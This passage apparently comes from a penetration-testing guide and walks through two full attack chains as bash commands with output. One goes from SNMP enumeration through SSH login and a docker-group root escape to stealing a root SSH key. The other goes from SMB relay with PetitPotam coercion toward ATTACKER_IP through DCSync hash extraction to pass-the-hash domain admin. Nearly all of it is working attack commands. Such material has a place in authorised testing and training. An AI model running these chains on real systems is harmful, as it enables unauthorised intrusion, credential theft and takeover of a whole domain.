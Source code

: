 **Each tool's output directly enabled the next tool.**

### Example 2: SNMP → SSH → Docker → Root

**From professional practitioner blog:**

```bash
# 1. nmap finds SNMP (port 161/udp)
sudo nmap -sU -p 161 10.10.10.80

# 2. snmpwalk with default community
snmpwalk -v2c -c public 10.10.10.80 > snmp.txt

# 3. Search for credentials
grep -i "password" snmp.txt
# → Found: "backup.sh --password BackupPass2024!"

# 4. Test on SSH
ssh backup@10.10.10.80
# Password: BackupPass2024!
# → Success!

# 5. Check groups
id
# → uid=1001(backup) gid=1001(backup) groups=1001(backup),999(docker)

# 6. Docker group = instant root
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# → root@host

# 7. Read root's SSH key
cat /root/.ssh/id_rsa

# 8. Test key on other systems
ssh -i root_key root@10.10.10.10
# → Access to Domain Controller!
```

### Example 3: SMB Signing Disabled → Domain Admin

```bash
# 1. NetExec checks SMB signing (2 minutes)
netexec smb 10.10.10.10 --gen-relay-list relay.txt
# → DC in list = signing not required

# 2. Setup NTLM relay (1 minute)
impacket-ntlmrelayx -t ldaps://10.10.10.10 --escalate-user jsmith --delegate-access

# 3. Coerce authentication (30 seconds)
python3 PetitPotam.py -u jsmith -p 'Welcome2024!' ATTACKER_IP 10.10.10.10
# → Relay successful, jsmith escalated

# 4. DCSync attack (3 minutes)
impacket-secretsdump 'DOMAIN/jsmith:Welcome2024!@10.10.10.10' -just-dc
# → 247 account hashes extracted including Administrator

# 5. Pass-the-hash (1 minute)
impacket-psexec -hashes :ADMIN_HASH Administrator@10.10.10.10
# → SYSTEM shell on DC
# → Domain Admin achieved

# 6. Document complete attack chain (5 minutes)
# → CRITICAL finding
```
---